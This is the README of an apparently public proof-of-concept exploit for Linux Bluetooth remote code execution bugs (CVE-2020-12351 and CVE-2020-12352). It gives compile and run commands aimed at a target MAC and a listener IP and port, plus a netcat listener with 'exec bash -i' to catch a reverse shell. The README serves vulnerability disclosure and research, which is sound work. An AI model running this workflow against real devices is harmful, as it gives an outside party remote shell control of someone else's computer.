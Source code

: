 # LookTooth: Linux Bluetooth Zero-Click Remote Code Execution

This Proof-Of-Concept demonstrates the exploitation of [CVE-2020-12351] and [CVE-2020-12352]

## Technical info

Technical info about the exploit is available at [writeup.md](writeup.md).

## Usage

Compile it using:

```sh
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```sh
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```sh
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```sh
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

This Proof-Of-Concept has been tested against a Asus Tuf FX505DT running Ubuntu 20.04.1 LTS with:

- `5.4.0-48-generic #52-Ubuntu SMP Thu Mar 25 10:58:49 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`

The success rate of the exploit is estimated at 80%.

